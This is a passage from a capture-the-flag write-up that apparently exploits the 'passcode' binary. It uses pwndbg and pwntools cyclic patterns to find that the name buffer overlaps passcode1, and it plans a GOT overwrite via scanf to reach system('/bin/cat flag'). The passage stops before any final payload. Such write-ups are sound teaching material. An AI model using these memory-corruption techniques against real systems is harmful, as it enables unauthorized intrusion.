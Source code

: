 ```shell
   0x080485ef <+139>:   leave  
   0x080485f0 <+140>:   ret    
   # ==== The loser section ====
   0x080485f1 <+141>:   mov    DWORD PTR [esp],0x80487bd # "Login Failed!"
   0x080485f8 <+148>:   call   0x8048450 <puts@plt> # puts("Login Failed!");
   0x080485fd <+153>:   mov    DWORD PTR [esp],0x0
   0x08048604 <+160>:   call   0x8048480 <exit@plt> # exit(0);
End of assembler dump.
```

`passcode1` is stored at `ebp-0x10`, `passcode2` is stored at `ebp-0xc`.
Now let's see if we can control the initial values of `passcode1` and `passcode2`.
```shell
>>> cyclic(120)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab'
```
```shell
pwndbg> b login
Breakpoint 1 at 0x804856a
pwndbg> r
enter you name : aaaabaaacaaadaaaeaaafaaaga....eaab
....
Breakpoint 1, 0x0804856a in login ()
pwndbg> x/w $ebp-0x10
0xffff32f8:     0x61616179
pwndbg> x/w $ebp-0xc
0xffff32fc:     0xe8d3ec00
```
```shell
>>> cyclic_find(0x61616179)
96
```
As we can see, the 4 last bytes of `char name[100]` are the initial bytes of `passcode1`.
Meaning we have full control over the initial value of `passcode1` but not of `passcode2`. So we can't change both to pass the `if` statement.
But we can set `passcode1` to an address that we want to change in the GOT table, and then use the call to `scanf("%d", passcode1)` to overwrite that GOT entry with the address of `system("/bin/cat flag")`.

Now let's find ourselves a GOT entry to overwrite.
First we can try `scanf`:
```shell
....
call   0x80484a0 <__isoc99_scanf@plt>
....

pwndbg> disassemble 0x80484a0
Dump of assembler code for function __isoc99_scanf@plt:
   0x080484a0 <+0>:	jmp    DWORD PTR ds:0x804a020
   0x080484a6 <+6>:	push   0x40
   0x080484ab <+11>:	jmp    0x8048410
End of assembler dump.
```
So we can try and overwrite the GOT entry of `scanf`, which is at `0x804a020`.
But notice that the `0x20` is the space character, so we can't use it in our payload.
So we'll have to find another GOT entry to overwrite.
